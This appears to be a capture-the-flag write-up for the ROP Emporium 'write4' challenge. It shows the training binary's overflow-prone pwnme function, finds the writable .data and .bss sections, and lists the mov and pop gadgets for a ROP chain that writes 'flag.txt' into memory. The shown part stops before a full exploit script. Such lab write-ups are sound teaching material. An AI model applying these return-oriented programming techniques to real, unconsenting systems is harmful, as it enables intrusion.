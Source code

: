 `pwnme` function from **libwrite4.so** library:
```c
int pwnme()
{
  char s[32]; // [rsp+0h] [rbp-20h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  puts("write4 by ROP Emporium");
  puts("x86_64\n");
  memset(s, 0, sizeof(s));
  puts("Go ahead and give me the input already!\n");
  printf("> ");
  read(0, s, 0x200uLL);
  return puts("Thank you!");
}
```

We can clearly see the vulnerability in the code. Our buffer is only 32 bytes and the read allows to read up to 512 bytes (0x200 in hex). So we have a buffer overflow here.  

Our goal is to print the flag but this time we haven't any `/bin/cat flag.txt` string like the previous time. We have a `usefulFunction` that prints a file. 
The idea here, as the description states, is to pass the string "flag.txt" to the `print_file` function so that it can be printed. 
So, firstly, we must pass the string into the `.bss` or `.data` section, which has **read-write** permissions, allowing us to write to them without any problems . These sections are basically for initializing/uninitializing variables.
**`.bss`**: For uninitialized data (zero-filled)
**`.data`**: For initialized data (contains actual values)

```sh
$ readelf -SW write4 | grep -E '\.bss|\.data'
  [23] .data             PROGBITS        0000000000601028 001028 000010 00  WA  0   0  8
  [24] .bss              NOBITS          0000000000601038 001038 000008 00  WA  0   0  1
```
`-SW` flags stand for **Strings** and **Write** 

`usefulFunction`:
```c
__int64 usefulFunction()
{
  return print_file("nonexistent");
}
```

For this type of attack, we will need some gadgets. The binary has a `usefulGadgets` function that provide for us a move gadget. We can see it with **pwndbg**:
```asm
pwndbg> disassemble usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x0000000000400628 <+0>:     mov    QWORD PTR [r14],r15
   0x000000000040062b <+3>:     ret
   0x000000000040062c <+4>:     nop    DWORD PTR [rax+0x0]
```
We also need some pop gadgets to store our variables, especially **pop rdi** and **pop r14; pop r15**:
```asm
$ ropper -f write4 --search pop | grep -E 'r14|rdi'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop
[INFO] File: write4
0x000000000040068c: pop r12; pop r13; pop r14; pop r15; ret;
0x000000000040068e: pop r13; pop r14; pop r15; ret;
0x0000000000400690: pop r14; pop r15; ret;
0x000000000040068b: pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
0x000000000040068f: pop rbp; pop r14; pop r15; ret;
```